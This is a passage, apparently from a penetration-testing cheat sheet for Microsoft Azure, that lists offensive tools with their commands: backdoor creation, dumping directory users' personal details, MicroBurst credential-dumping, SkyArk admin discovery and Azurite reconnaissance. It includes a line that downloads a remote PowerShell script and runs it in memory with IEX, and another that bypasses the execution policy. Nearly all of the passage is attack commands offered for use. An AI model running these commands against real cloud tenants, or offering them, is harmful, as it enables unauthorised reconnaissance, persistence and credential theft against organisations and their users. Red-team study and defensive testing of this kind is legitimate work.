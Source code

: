     # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```

* **Azure CLI** - Default azure CLI

    ```powershell
    $ AZ_REPO=$(lsb_release -cs) echo "deb [arch=amd64] https://packages.microsoft.com/repos/azure-cli/ $AZ_REPO main" | sudo tee /etc/apt/sources.list.d/azure-cli.list
    $ curl -L https://packages.microsoft.com/keys/microsoft.asc | sudo apt-key add -
    $ sudo apt-get install apt-transport-https
    $ sudo apt-get update && sudo apt-get install azure-cli
    # dump users
    $ az ad user list --output=table --query='[].{Created:createdDateTime,UPN:userPrincipalName,Name:displayName,Title:jobTitle,Department:department,Email:mail,UserId:mailNickname,Phone:telephoneNumber,Mobile:mobile,Enabled:accountEnabled}'
    ```

* **MicroBurst** - MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping

    ```powershell
    $ git clone https://github.com/NetSPI/MicroBurst
    PS C:> Import-Module .\MicroBurst.psm1
    PS C:> Import-Module .\Get-AzureDomainInfo.ps1
    PS C:> Get-AzureDomainInfo -folder MicroBurst -Verbose
    ```

* **SkyArk** - Discover the most privileged users in the scanned Azure environment - including the Azure Shadow Admins.
    Require:
  - Read-Only permissions over Azure Directory (Tenant)
  - Read-Only permissions over Subscription
  - Require AZ and AzureAD module or administrator right

    ```powershell
    $ git clone https://github.com/cyberark/SkyArk
    $ powershell -ExecutionPolicy Bypass -NoProfile
    PS C> Import-Module .\SkyArk.ps1 -force
    PS C> Start-AzureStealth

    or in the Cloud Console

    PS C> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cyberark/SkyArk/master/AzureStealth/AzureStealth.ps1')  
    PS C> Scan-AzureAdmins  
    ```

* **Azurite Explorer** and **Azurite Visualizer** : Enumeration and reconnaissance activities in the Microsoft Azure Cloud.

    ```powershell
    git clone https://github.com/mwrlabs/Azurite.git
    git clone https://github.com/FSecureLABS/Azurite
    git submodule init
    git submodule update
    PS> Import-Module AzureRM
    PS> Import-Module AzuriteExplorer.ps1
    PS> Review-AzureRmSubscription
    PS> Review-CustomAzureRmSubscription
    ```
